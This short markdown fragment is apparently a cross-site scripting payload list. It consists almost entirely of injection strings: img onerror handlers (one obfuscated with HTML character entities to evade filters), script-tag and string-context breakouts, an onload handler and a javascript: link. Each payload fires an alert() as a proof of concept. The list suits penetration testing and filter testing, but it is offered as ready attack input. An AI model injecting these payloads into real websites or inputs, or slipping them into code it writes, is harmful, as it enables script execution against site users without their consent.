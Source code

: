 ###### IMG SRC on error alert
* <img src="x" onerror="javascript:alert('XSS')">
* <img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

######
* '><script>alert()</script>
* "><script>alert()</script>

###### Complete the original request, Create your own and let it complete for you
* <img src="/static/loading.gif" onload="startTimer('34');" />
* ');alert('xss

######
* <a href="javascript:alert(8007)">Sign up</a>
